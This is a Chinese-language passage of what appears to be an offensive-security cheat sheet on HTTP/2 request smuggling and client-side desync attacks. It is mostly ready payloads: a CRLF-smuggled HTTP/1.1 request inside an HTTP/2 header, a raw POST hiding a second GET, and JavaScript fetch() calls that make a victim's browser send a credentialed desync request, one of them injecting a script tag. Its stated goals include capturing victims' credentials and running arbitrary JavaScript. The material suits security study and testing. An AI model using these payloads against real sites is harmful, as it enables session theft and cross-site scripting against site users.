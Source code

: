 ## HTTP/2 请求走私

如果机器将您的 HTTP/2 请求转换为 HTTP/1.1，并且您可以在转换后的请求中走私无效的 content-length 头部、transfer-encoding 头部或换行符（CRLF），则可能发生 HTTP/2 请求走私。如果您可以将 HTTP/1.1 请求隐藏在 HTTP/2 头部中，HTTP/2 请求走私也可能发生在 GET 请求中。

```ps1
:method GET
:path /
:authority www.example.com
header ignored\r\n\r\nGET / HTTP/1.1\r\nHost: www.example.com
```

## 客户端去同步攻击

在某些路径上，服务器不期望收到 POST 请求，会将其视为简单的 GET 请求并忽略有效负载，例如：

```ps1
POST / HTTP/1.1
Host: www.example.com
Content-Length: 37

GET / HTTP/1.1
Host: www.example.com
```

这可能会被当作两个请求处理，而实际上应该只是一个。当后端服务器响应两次时，前端服务器会认为只有第一个响应与此请求相关。

要利用此漏洞，攻击者可以使用 JavaScript 触发受害者向易受攻击的站点发送 POST 请求：

```javascript
fetch('https://www.example.com/', {method: 'POST', body: "GET / HTTP/1.1\r\nHost: www.example.com", mode: 'no-cors', credentials: 'include'} )
```

这可以用于：

* 让易受攻击的站点将受害者的凭据存储在攻击者可以访问的位置
* 让受害者向某个站点发送漏洞利用（例如，对于攻击者无法访问的内部站点，或者使攻击更难归因）
* 让受害者运行来自站点的任意 JavaScript

**示例**：

```javascript
fetch('https://www.example.com/redirect', {
    method: 'POST',
        body: `HEAD /404/ HTTP/1.1\r\nHost: www.example.com\r\n\r\nGET /x?x=<script>alert(1)</script> HTTP/1.1\r\nX: Y`,
        credentials: 'include',
        mode: 'cors' // 抛出错误而不是跟随重定向
}).catch(() => {
        location = 'https://www.example.com/'
})
```

此脚本告诉受害者浏览器向 `www.example.com/redirect` 发送 `POST` 请求。这会返回一个被 CORS 阻止的重定向，并导致浏览器执行 catch 块，跳转到 `www.example.com`。
